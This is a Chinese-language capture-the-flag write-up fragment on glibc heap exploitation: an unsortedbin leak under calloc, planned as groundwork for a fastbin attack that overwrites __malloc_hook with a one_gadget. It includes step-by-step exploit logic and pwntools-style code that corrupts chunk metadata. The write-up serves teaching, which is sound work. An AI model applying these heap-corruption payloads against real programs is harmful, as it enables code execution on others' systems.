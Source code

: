 那么修改 got 表是不可能了，尝试修改`__free_hook`或`__malloc_hook`

首先我们需要泄漏出一个 libc 的地址，之后利用 fastbin attack 修改`__malloc_hook`为 one_gadget 的地址

泄漏 libc 地址的话可以使用 unsortedbin leak

但是这个程序中分配内存时使用的是`calloc`而不是`malloc`

分配之后会清零，所以没办法简单的直接读出来

思路是：

*   首先 free 两个 fastbin，记为 a,b
*   申请一个 unsortedbin，记为 c
*   利用溢出修改第二次 free 的 fastbin (b) 的 fd，使其指向 unsortedbin (c)
*   利用溢出修改 unsortedbin 的 size，伪造成 fastbin 的大小
*   malloc 两次 fastbin，申请到的空间分别是原本 b、c 所在的空间；这时同时有两个指针指向 c
*   利用溢出修改 unsortedbin 的 size，使其恢复为一个 unsortedbin 的大小；
*   free 掉 unsortedbin
*   利用另一个 fastbin 的指针泄漏出 unsortedbin 中的 fd 和 bk，即 main_arena 的地址

这里有一个注意点，虽然我们不知道堆的地址，但是由于 CTF 的程序运行时都是堆刚刚初始化的状态，第一个堆快的第 8 位应该是按 0 对齐的，所以我们修改 fastbin 时只修改第八位就可以指向 unsortedbin

核心代码

```
chunk_A = malloc(0x28)

chunk_eB = malloc(0x28)
chunk_B = malloc(0x28)

chunk_eC = malloc(0x28)
chunk_C = malloc(0x88)

chunk_D = malloc(0x28)
# avoid consolidate

free(chunk_A)
free(chunk_B)
fill(chunk_eB,49,p64(0)*5 + p64(0x31) + p8(0xc0))
# point to chunk_C
fill(chunk_eC,48,p64(0)*5 + p64(0x31))
# change size to a fastbin

malloc(0x28)
dup = malloc(0x28)
# point to chunk_C

fill(chunk_eC,48,p64(0)*5 + p64(0x91))
# change size back to unsortedbin

free(chunk_C)

```
